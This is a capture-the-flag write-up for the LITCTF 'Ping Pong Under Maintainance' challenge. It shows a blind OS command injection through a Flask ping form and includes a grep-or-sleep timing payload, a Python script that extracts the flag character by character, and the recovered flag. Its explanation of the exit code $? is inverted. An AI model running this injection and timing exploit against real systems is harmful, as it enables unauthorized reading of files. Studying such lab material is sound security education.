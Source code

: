 ## Write Up For Ping Pong Under Maintainance

First check what the difference between
Ping Pong and Ping Pong Under Maintainance

### Ping Pong
```py
return render_template('index.html', output=output)
```

### Ping Pong Under Maintainance
```py
return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')
```

Notice that the only difference between the two is that Ping Pong Under
Maintainance won't output what the command does

However, the program will still excute the command as seen in these lines

```py
hostname = request.form['hostname']
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This means command injection is still viable
but there must be some other way to get flag information

After a lot of thinking, testing, and failing
I finally found a timing attack

If it is possible to check whether some substring exists in the flag file
then use that change the website reponse time depending on true or false then it would be possible to brute force each character till the flag is found

### The Payload

```bash
grep LITCTF{text flag.txt || sleep $?
```

Using this command can check if some prefix starting with LITCTF{ is in the flag file

$? returns 1 if the text grepped is in the file and 0 if it is not

Testing this command out, a proper prefix such as LITCTF causes the website to respond almost instantly;
however, a string such at ASHJFJSHD would cause the website to take over a second to load

Now that a working explot is found, 
the prefix of the flag can be tested one character at a time


And here is a simple python program to find the flag one char at a time

### Python Script

```py
import requests
import string

#allowed characters in flag
charlist = string.ascii_lowercase+string.digits+"_}"

#known prefix
flag = "LITCTF{"


#changes with every instance
url = 'http://34.130.180.82:59880/'

#headers for POST request
headers = {
    'Host': url,
    # 'Content-Length': '11',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': url,
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Referer': url,
    # 'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US,en;q=0.9',
    'Connection': 'close',
}


#payload
data = {
    'hostname': 'temp',
}

#loops till we get the flag
while True:
    #correct next character
    bestchr = " "

    #testing each character
    for x in charlist:
        #test prefix
        teststr = flag+x
        #payload
        injection = f";grep -q {teststr} flag.txt || sleep $(($?*1))"
        data = {'hostname': injection}
        #sending request
        req = requests.post(url, headers=headers, data=data)
        #check how long it took
        if req.elapsed.total_seconds() < 1:
            #found the correct char
            bestchr = x
            break
    
    #appending char to flag
    flag+=bestchr
    #prints flag everytime we find the next char
    print(flag)
    #exits ones flag is found
    if(bestchr == '}'): break

```

After a while of using this program
I was able to retrieve the flag

### LITCTF{c4refu1_fr}


# YOUR DID IT :D
